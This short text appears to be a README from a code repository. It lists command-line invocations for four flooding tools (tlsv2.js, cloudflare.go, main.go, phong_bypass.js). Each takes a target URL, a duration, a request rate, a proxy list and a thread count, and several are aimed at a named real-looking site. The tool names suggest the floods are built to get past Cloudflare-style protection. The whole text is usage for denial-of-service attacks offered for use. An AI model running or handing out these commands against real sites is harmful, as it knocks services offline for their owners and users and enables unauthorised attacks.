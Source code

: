 tool 2
node tlsv2.js https://subvip24h.site 1200 100000

tool 1
go run cloudflare.go https://subvip24h.site 12000 100000 proxy.txt 100000

tool 3
go run main.go https://subvip24h.site 120000 100000 proxy.txt 100000

./main <target> <duration> <rps> <proxylist> <threads>

tool 4
node phong_bypass.js target time rate thread proxyfile
